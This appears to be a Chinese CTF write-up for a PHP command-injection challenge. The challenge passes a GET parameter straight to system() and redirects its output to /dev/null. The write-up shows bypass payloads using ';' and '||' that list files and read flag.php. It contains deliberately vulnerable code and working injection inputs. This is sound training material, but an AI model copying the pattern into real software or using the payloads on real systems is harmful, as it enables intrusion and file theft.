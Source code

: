 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 20:51:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}else{
    highlight_file(__FILE__);
} 
```

分析源码

\>/dev/null 2>&1

表示将标准输出和标准错误输出都重定向到/dev/null

及无返回值



### 第一种

利用 ; 绕过

```
?c=ls;
```

![image-20250403150303631](./assets/image-20250403150303631.png)

```
?c=cat flag.php;
```

![image-20250403150324174](./assets/image-20250403150324174.png)





### 第二种

利用||绕过

```
?c=cat flag.php||
```

![image-20250403150351633](./assets/image-20250403150351633.png)